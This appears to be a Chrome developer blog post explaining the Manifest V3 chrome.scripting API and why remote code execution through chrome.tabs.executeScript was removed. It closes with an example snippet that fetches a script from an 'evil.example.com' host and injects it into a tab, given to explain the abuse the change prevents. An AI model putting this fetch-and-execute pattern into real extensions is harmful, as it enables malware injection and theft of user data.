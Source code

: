 
Simeon Vincent 
[ GitHub ](https://github.com/dotproto) [ Glitch ](https://glitch.com/@dotproto)
[Manifest V3](https://developer.chrome.com/docs/extensions/mv3/intro) introduces a number of changes to Chrome's extension platform. In this post, we'll be exploring the motivations and changes introduced by one of the more notable changes: the introduction of the [`chrome.scripting`](https://developer.chrome.com/docs/extensions/reference/scripting) API.
## What is chrome.scripting?
As the name might suggest, `chrome.scripting` is a new namespace introduced in Manifest V3 responsible for script and style injection capabilities.
Developers that have created Chrome extensions in the past may be familiar with Manifest V2 methods on the [Tabs API](https://developer.chrome.com/docs/extensions/reference/tabs) like [`chrome.tabs.executeScript`](https://developer.chrome.com/docs/extensions/reference/tabs#method-executeScript) and [`chrome.tabs.insertCSS`](https://developer.chrome.com/docs/extensions/reference/tabs#method-insertCSS). These methods allow extensions to inject scripts and stylesheets into pages, respectively. In Manifest V3, these capabilities have moved to `chrome.scripting` and we plan to expand this API with some new capabilities in the future.
## Why create a new API?
With a change like this, one of the first questions that tends to come up is, "why?"
A few different factors led to the Chrome team deciding to introduce a new namespace for scripting. First, the Tabs API is a bit of a junk drawer for features. Second, we needed to make breaking changes to the existing `executeScript` API. Third, we knew that we wanted to expand scripting capabilities for extensions. Together, these concerns clearly defined a need for a new namespace to house scripting capabilities.
### The junk drawer
One of the issues that has been bothering the Extensions Team for the past few years is that the `chrome.tabs` API is overloaded. When this API was first introduced, most of the capabilities it provided were related to the broad concept of a browser tab. Even at that point, though, it was a bit of a grab bag of features and over the years this collection has only grown.
By the time Manifest V3 was released, the Tabs API had grown to cover basic tab management, selection management, window organization, messaging, zoom control, basic navigation, scripting, and a few other smaller capabilities. While these are all important, it can be a bit overwhelming for developers when they're getting started and for the Chrome team as we maintain the platform and consider requests from the developer community.
Another complicating factor is that the `tabs` permission is not well understood. While many other permissions restrict access to a given API (e.g. [`storage`](https://developer.chrome.com/blog/crx-scripting-api?hl=en#link-to-storage-api-docs)), this permission is a bit unusual in that it only grants the extension access to sensitive properties on Tab instances (and by extension also impacts the Windows API). Understandably, many extension developers mistakenly think they need this permission in order to access methods on the Tabs API like `chrome.tabs.create` or, more germanely, `chrome.tabs.executeScript`. Moving functionality out of the Tabs API helps clear up some of this confusion.
### Breaking changes
When designing Manifest V3, one of the major issues that we wanted to address was abuse and malware enabled by "remotely-hosted code" - code that is executed, but not included in the extension package. It's common for abusive extension authors to execute scripts fetched from remote servers to steal user data, inject malware, and evade detection. While good actors also use this capability, we ultimately felt that it was simply too dangerous to remain as it was.
There are a couple different ways that extensions can execute unbundled code, but the relevant one here is the Manifest V2 `chrome.tabs.executeScript` method. This method allows an extension to execute an arbitrary string of code in a target tab. This, in turn, means that a malicious developer can fetch an arbitrary script from a remote server and execute it inside any page the extension can access. We knew that if we wanted to address the remote code problem that we would have to drop this feature.
```
(asyncfunction(){
letresult=awaitfetch('https://evil.example.com/malware.js');
letscript=awaitresult.text();
chrome.tabs.executeScript({
code:script,
});
})();
```